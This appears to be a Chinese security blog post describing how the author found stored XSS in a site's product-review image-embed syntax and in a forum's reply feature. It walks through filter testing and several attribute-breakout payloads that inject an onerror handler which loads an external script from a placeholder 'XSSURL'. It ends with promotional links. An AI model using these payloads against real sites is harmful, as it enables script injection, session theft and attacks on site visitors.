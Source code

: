 #  漏洞挖掘 | 一处图片引用功能导致的XSS   
 迪哥讲事   2023-09-09 23:05  
  
# 山重水复疑无路  
  
漏洞点：站点产品评论处  
## 初步测试  
  
一开始尝试XSS，发现程序有过滤，提交均显示Tags are not permitted，最后测出来的是过滤 < ，不过滤 >  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41f7ZRHdBicnSxC2Wrxlr4lWOB2ia200GcUftubNUtWYc4mwGo53GurEdgA/640?wx_fmt=png "")  
  
因为提示速度比较快，猜测前端有一层检测。尝试绕过前端检测，burp拦截正常提交的内容，替换xss payload后发送，发现会自动跳转回首页，由此发现程序后端也有内容检测，这里直接xss暂时行不通。  
  
查看编辑器的其他功能：  
  
图片上传：可上传aspx（其他可能解析后缀均已尝试），不能解析并跳转至首页。可上传html并解析，这种方式构造的xss通常需要主动攻击，且攻击时易被管理员察觉到异常，暂不考虑。  
  
表情功能：没什么可利用的。  
# 柳暗花明又一村  
  
当看到编辑器提示的 img 外部图片引用方式时引起了我的注意，这里感觉可以操作一下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fDeh6eaW7oOjuOlHlPMgZfbOeHcU8HUjgY2aGxBodQiaicyTnk5ZLDolg/640?wx_fmt=png "")  
## 正常测试  
  
先来看下正常引用方式时前端的显示，链接被带入到src中（logo前文字涉及域名，打码）：  
  
```
[img|XSSURL|xxxxx Logo]
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fBBmMEyNrx4eCHXxoEeWRelY1l5KAMLhic084sEmQ4c0jfOajIH9Oh4Q/640?wx_fmt=png "")  
## 带入payload  
  
把xss payload 放在链接的位置再看一下：  
  
```
常规的payload：
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';>
构造的payload：
[img|x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';|xxxxx Logo]
```  
  
  
提交  
后审查元素发现为如下显示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fVyMDWrfQOcbCtxFAq7LgnZ4alspL5ST9HFcPRaOm2viabvOCiciaAmibbQ/640?wx_fmt=png "")  
## 尝试闭合  
  
尝试闭合 x 处的双引号，让 onerror 逃逸出来：  
  
```
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';|hello]
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41f3uDh4YYlKC8GpJgsRwSvyiaE9QfPIWRnl8icUBGjOmlQwP5uH23NQLfg/640?wx_fmt=png "")  
  
  
这里提交后发现payload并没有执行成功，仔细看发现程序输出时分别在 onerror= 和 ; 后面加了双引号。  
## 闭合成功  
  
直接给个 > 让它闭合，虽然成功加载了，但是页面显示会有错误，这样十分容易被发现倪端，不够完美。  
  
```
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';>|hello]
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fAA9vasKogvh7YFBnmecj9DiacYOGRS5WIGdlVBicJPibiagBgZCMqc9QEw/640?wx_fmt=png "")  
  
换个思路通过闭合掉 ; 后面的双引号，显示效果如下：  
  
  
```
[img|x" onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';"|hello]
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fa9NjGaMTRsj1B6dvx1XgTQZqFOtoQu0UAj9McvXSjNvKicKB4l5QdSA/640?wx_fmt=png "")  
  
  
最终在没有任何错误内容显示的情况下成功执行了xss payload：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fZVVWT1rFbpbYDOxUTEbQiajolkQA9nMs84wJlDwpZCbLC9iajjMHMnvQ/640?wx_fmt=png "")  
  
看到这里可能有人就会想，这种案例触发的xss是不是很少存在，因为毕竟不是每个编辑器都用这种图片外链引用方式，那么请继续看下面。  
# 灵活运用  
  
这几天在搞一个gangdu的论坛，在回复功能处，又遇到了同样的问题。  
  
本来这个功能应该只能放图片链接的，但是这里插入的链接格式和内容并没有做校验。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fKKhA5p9mOx88Sa6bVoVBfflTcUsb99rSj3SpQbBXsKNEARcDDGX38g/640?wx_fmt=jpeg "")  
  
```
x onerror=s=createElement('script');body.appendChild(s);s.src='XSSURL';
```  
  
  
这里直接把payload放进去，看下前端显示  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41f2w8y2vQCoI3zHIGFGFgZcQuytkBgib17L98shtR0fd0SGlpRMq7iaIlQ/640?wx_fmt=jpeg "")  
  
同样的思路，这里直接闭合就好了  
  
```
x" onerror="s=createElement('script');body.appendChild(s);s.src='XSSURL';
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41fwh5iaGEltWMerejXlQM4YNmB5zykwf39gBtHMibVAkjLQXr2T7IsGPug/640?wx_fmt=jpeg "")  
  
成功加载payload  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8QfeuvouicIW1aB1vXtklxc0fGibO41feqvT7ibZ6BkDzTPND3iaLAiaI9WXOR7a99nsrJwV1Ng36bxTdVWccJyxw/640?wx_fmt=jpeg "")  
  
  
平时渗透的时候，看到功能点不要上去就是蛮干，先预想下这个功能是大概怎么实现的，然后思路猥琐一点，心细一点，往往会有意想不到的收获的，就写到这里吧。  
  
如果你是一个长期主义者，欢迎加入我的知识星球([优先查看这个链接，里面可能还有优惠券](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247489122&idx=1&sn=a022eae85e06e46d769c60b2f608f2b8&chksm=e8a61c01dfd195170a090bce3e27dffdc123af1ca06d196aa1c7fe623a8957755f0cc67fe004&scene=21#wechat_redirect)  
)，我们一起往前走，每日都会更新，精细化运营，微信识别二维码付费即可加入，如不满意，72 小时内可在 App 内无条件自助退款  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/YmmVSe19Qj5jYW8icFkojHqg2WTWTjAnvcuF7qGrj3JLz1VgSFDDMOx0DbKjsia5ibMpeISsibYJ0ib1d2glMk2hySA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
## 往期回顾  
  
[2022年度精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487187&idx=1&sn=622438ee6492e4c639ebd8500384ab2f&chksm=e8a604b0dfd18da6c459b4705abd520cc2259a607dd9306915d845c1965224cc117207fc6236&scene=21#wechat_redirect)  
  
  
[SSRF研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486912&idx=1&sn=8704ce12dedf32923c6af49f1b139470&chksm=e8a607a3dfd18eb5abc302a40da024dbd6ada779267e31c20a0fe7bbc75a5947f19ba43db9c7&scene=21#wechat_redirect)  
  
  
[xss研究笔记](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487130&idx=1&sn=e20bb0ee083d058c74b5a806c8a581b3&chksm=e8a604f9dfd18defaeb9306b89226dd3a5b776ce4fc194a699a317b29a95efd2098f386d7adb&scene=21#wechat_redirect)  
  
  
[dom-xss精选文章](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247488819&idx=1&sn=5141f88f3e70b9c97e63a4b68689bf6e&chksm=e8a61f50dfd1964692f93412f122087ac160b743b4532ee0c1e42a83039de62825ebbd066a1e&scene=21#wechat_redirect)  
  
  
[Nuclei权威指南-如何躺赚](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247487122&idx=1&sn=32459310408d126aa43240673b8b0846&chksm=e8a604f1dfd18de737769dd512ad4063a3da328117b8a98c4ca9bc5b48af4dcfa397c667f4e3&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试设置功能IV](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486973&idx=1&sn=6ec419db11ff93d30aa2fbc04d8dbab6&chksm=e8a6079edfd18e88f6236e237837ee0d1101489d52f2abb28532162e2937ec4612f1be52a88f&scene=21#wechat_redirect)  
  
  
[漏洞赏金猎人系列-如何测试注册功能以及相关Tips](http://mp.weixin.qq.com/s?__biz=MzIzMTIzNTM0MA==&mid=2247486764&idx=1&sn=9f78d4c937675d76fb94de20effdeb78&chksm=e8a6074fdfd18e59126990bc3fcae300cdac492b374ad3962926092aa0074c3ee0945a31aa8a&scene=21#wechat_redirect)  
  
## 福利视频  
  
笔者自己录制的一套php视频教程(适合0基础的),感兴趣的童鞋可以看看,基础视频总共约200多集,目前已经录制完毕,后续还有更多视频出品  
  
https://space.bilibili.com/177546377/channel/seriesdetail?sid=2949374  
## 技术交流  
  
技术交流请加笔者微信:richardo1o1 (暗号:growing)  
  
